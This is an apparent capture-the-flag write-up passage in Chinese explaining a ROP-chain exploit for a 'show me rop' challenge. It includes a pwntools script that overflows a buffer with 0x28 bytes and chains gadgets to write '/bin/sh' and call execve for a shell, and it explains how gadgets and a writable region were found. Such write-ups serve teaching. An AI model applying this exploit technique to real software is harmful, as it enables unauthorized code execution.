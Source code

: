 ```python
    pop_rcx_ret, b'/bin/sh\x00',
    mov_ptr_rdi_rcx,
    pop_rsi_ret, 0,
    pop_rdx_rbx_ret, 0, 0,
    pop_rax_ret, 0x3b,
    syscall_ret,
)
r.sendlineafter(b'show me rop\n> ', b'A'*0x28 + ROP)
r.interactive()
```
首先一樣仿照上一題的做法串 ROP chain，不過這題是改成去拿 shell\
用 ROPgadget 取得要用的 gadget，其中會發現 pop_rdx_ret 的 gadget 一樣找不到\
因此跟上一題一樣改成用 pop_rdx_rbx_ret，並記得要多 pop 一個東西到 rbx 裡
![](assets/3-2.png)
![](assets/3-3.png)
![](assets/3-4.png)
而這題關鍵的部分是要找一段可讀可寫的記憶體位址區域，將 /bin/sh 字串寫在該位址\
尋找的方法是用 gdb 下 vmmap 指令，就能查看所有記憶體區域的權限